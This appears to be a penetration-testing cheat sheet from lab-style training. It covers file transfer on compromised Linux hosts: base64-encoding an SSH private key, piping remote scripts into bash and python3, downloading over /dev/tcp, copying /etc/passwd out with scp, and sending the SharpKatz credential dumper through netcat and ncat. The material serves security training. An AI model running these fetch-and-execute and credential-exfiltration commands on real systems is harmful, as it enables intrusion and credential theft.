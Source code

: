 ## Base64 Encoding / Decoding
Depending on the file size we want to transfer, we can use a method that does not require network communication. If we have access to a terminal, we can encode a file to a base64 string, copy its content into the terminal and perform the reverse operation. Let's see how we can do this with Bash.
### Check File MD5 hash
```
md5sum id_rsa
```
### Encode SSH Key to Base64
```
cat id_rsa |base64 -w 0;echo
```
We copy this content, paste it onto our Linux target machine, and use base64 with the option -d to decode it.
```
echo -n 'contentinpreviouscommand' | base64 -d > id_rsa
```
we can confirm if the file was transferred successfully using the md5sum command.
```
md5sum id_rsa
```
## Web Downloads with Wget and cURL
### Download a File Using wget
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
### Download a File Using cURL
```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
## Fileless Attacks Using Linux
### Fileless Download with cURL
```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
### Fileless Download with wget
```
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
```
Hello World!
```
## Download with Bash (/dev/tcp)
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
### Connect to the Target Webserver
```
exec 3<>/dev/tcp/10.10.10.32/80
```
### HTTP GET Request
```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
### Print the Response
```
cat <&3
```
## SSH Downloads
### Enabling the SSH Server
```
sudo systemctl enable ssh
```
### Starting the SSH Server
```
sudo systemctl start ssh
```
### Checking for SSH Listening Port
```
netstat -lnpt
```
## SCP Upload
### File Upload using SCP
```
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```
### Transfer directories using scp
```
scp -r [source_directory] [username]@[destination_host]:[destination_directory]
```
## Miscellaneous File Transfer Methods
### File Transfer with Netcat and Ncat
we'll transfer SharpKatz.exe from our Pwnbox onto the compromised machine. 
#### NetCat - Compromised Machine - Listening on Port 8000
```
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```
From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file SharpKatz.exe as input to Netcat. The option -q 0 will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.
#### Netcat - Attack Host - Sending File to Compromised machine
```
d0x777@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
d0x777@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
#### Ncat - Compromised Machine - Listening on Port 8000
```
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
By utilizing Ncat on our attacking host, we can opt for --send-only rather than -q. The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. 
#### Ncat - Attack Host - Sending File to Compromised machine
```
d0x777@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
d0x777@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat.
#### Attack Host - Sending File as Input to Netcat
```
d0x777@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```
#### Attack Host - Sending File as Input to Ncat
```
d0x777@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```
## Transfer files using /dev/TCP
If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/.
Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.
```
ls -la /bin/sh
```
It might be redirecting the /bin/sh -> dash
```
ls -la /bin/bash
```
if it does exist then we can do the following
```
ncat -lvp 8000 < LinEnum.sh
```
```
bash -c "cat < /dev/tcp/10.10.14.3/8000 | bash"
```
```
bash -c "cat < /dev/tcp/10.10.14.3/8000 > /dev/shm/LinEnum.sh"
```
```
bash /dev/shm/LinEnum.sh
```
